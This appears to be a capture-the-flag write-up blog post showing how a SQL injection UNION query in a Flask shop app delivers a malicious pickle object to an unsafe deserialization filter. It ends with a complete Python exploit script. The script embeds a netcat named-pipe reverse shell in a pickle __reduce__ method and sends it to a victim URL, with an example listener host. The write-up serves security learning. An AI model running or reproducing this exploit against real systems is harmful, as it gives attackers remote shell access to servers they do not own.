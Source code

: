 ```yaml
---
layout: default
title:  "Pickle Wickle"
date:   2022-09-20 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/picklewickle/
---
```



## Introduction
In this challenge we will take advantage of Flask template filter which uses pickle library to deserialize a python object, but before, we have to analyze a simple SQL injection so we can pass our payload properly. 

## Finding the Bug 
The application is a simple shop web app that lists only four items.

![image](/assets/images/cop.png)

Looking at the web app routes we find two simple routes: 
```python 
@web.route('/')
def index():
    return render_template('index.html', products=shop.all_products())


@web.route('/view/<product_id>')
def product_details(product_id):
    with open('/tmp/record.log', 'a+') as file:
        file.write(shop.select_by_id(product_id))
    return render_template('item.html', product=shop.select_by_id(product_id))
``` 

The interesting part here is the product/s object which gets rendered to the templates, by the `shop.select_by_id()`, moving forward we can check for this function implementation:

```python 
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
``` 
the function select_by_id() lacks parametrization and hence is clearly SQLi vulnerable, but till this moment we still don't have interesting target to make use of this SQLi. 

## Never eat pickles!
Having a look at *app.py* we can see a Flask template filter defined that uses *pickle* library to load a base64 encoded object and deserialize it through *loads()*, then returns  back the object, as shown below: 
```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```
Flask filters are called with the **|** notation inside templates, let's see *item.html*

```html
<div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
```

the product object returned from the SQL query is returned to the pickle filter decorator, which calls the *pickle_loads()* passing the returned value. 

## Eat the pickle, but ... cut the onion first.
pickling in python is a famous insecure way to handle python objects because of the code execution that may occur in the deserialization process, in our case we can pass the base64 encoded malicious pickle object in  the URL parameter of */view/<product_id>*, but we have to find a way to insure the payload is returned from the SQL query first! 

### Not onions, I mean UNION 
Yes, as you know, after injecting our payload after the where clause, we can simply add an UNION statement with our custom payload, making the structure of the SQL statement as follows: 
```SQL 
SELECT data FROM products WHERE id='20' UNION SELECT '<pickle payload>' -- -'
``` 
This will eventually return the pickled payload we send.

## The exploit 
I wrote a simple exploit script that dumps a malicious pickle object which returns a command execution upon deserialization, sets up the SQLi payload along with the Base64 object, and sends it through a GET request, all you have to do is set your listener, and expose your victim,
Happy Hacking. 

```python 
import pickle, os, base64
import sys
import requests
from urllib.parse import quote 

class P(object):
    
    def __init__(self, host, port): 
        self.host = host 
        self.port = port
    
    def __reduce__(self): 
        return (os.system,("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(self.host, self.port),))

if __name__ == "__main__": 
    
    try: 
        victim_url = sys.argv[1] 
        host = sys.argv[2] 
        port = sys.argv[3] 
        print("###### SENDING SHELL PAYLOAD ######")
        print('Make sure to setup your listener')
        if (not victim_url.startswith('http://') and not victim_url.startswith('https://')): 
            victim_url = 'http://' + victim_url   
        payload = victim_url + '/view/' + quote("1' UNION SELECT '{}' -- -".format(str(base64.b64encode(pickle.dumps(P(host, port))).decode())))
        response = requests.get(payload)     
    
    except: 
        print("Usage: python3 cop_exploit.py <victim> <listener host> <port>\n") 
        print("Example: python3 cop_exploit.py http://64.227.43.113:32298 6.tcp.ngrok.io 16451")
```
